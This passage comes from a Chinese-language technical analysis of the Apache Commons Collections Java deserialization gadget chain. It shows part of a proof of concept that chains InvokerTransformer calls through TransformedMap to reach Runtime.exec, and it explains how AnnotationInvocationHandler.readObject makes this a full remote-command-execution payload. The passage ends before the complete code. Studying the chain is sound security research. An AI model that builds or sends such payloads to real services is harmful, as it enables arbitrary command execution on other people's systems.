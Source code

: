 ```
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class},
                        new Object[] {execArgs}
                )
        };
        Transformer transformerChain = new ChainedTransformer(transforms);
        Map tempMap = new HashMap<String, Object>();
        Map<String, Object> exMap = TransformedMap.decorate(tempMap, null, transformerChain);
        exMap.put("1111", "2222");
        for (Map.Entry<String, Object> exMapValue : exMap.entrySet()) {
            exMapValue.setValue(1);
        }
    }
}

```

根据之前的分析，将上面这段代码编译运行后会默认会弹出计算器，对代码详细执行过程有疑惑的可以通过单步调试进行测试：

![p5](http://drops.javaweb.org/uploads/images/bd0766f91b5ca1a97b2bc5c6aad9b5f854b59eaa.jpg)

然后我们现在只是测试了使用`TransformedMap`进行任意命令执行而已，要想在 Java 应用反序列化的过程中触发该过程还需要找到一个类，它能够在反序列化调用`readObject()`的时候调用`TransformedMap`内置类`MapEntry`中的`setValue()`函数，这样才能构成一条完整的 Gadget 调用链。恰好在`sun.reflect.annotation.AnnotationInvocationHandler`类具有`Map`类型的参数，并且在`readObject()`方法中触发了上面所提到的所有条件，其源码如下：

```
private void readObject(java.io.ObjectInputStream s) {
    ...省略...
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));
            }
        }
    }
}

```

可以注意到`memberValue`是`AnnotationInvocationHandler`类中类型声明为`Map<String, Object>`的成员变量，刚好和之前构造的`TransformedMap`类型相符，因此我们可以通过 Java 的反射机制动态的获取`AnnotationInvocationHandler`类，使用精心构造好的`TransformedMap`作为它的实例化参数，然后将实例化的`AnnotationInvocationHandler`进行序列化得到二进制数据，最后传递给具有相应环境的序列化数据交互接口使之触发命令执行的 Gadget，完整代码如下：
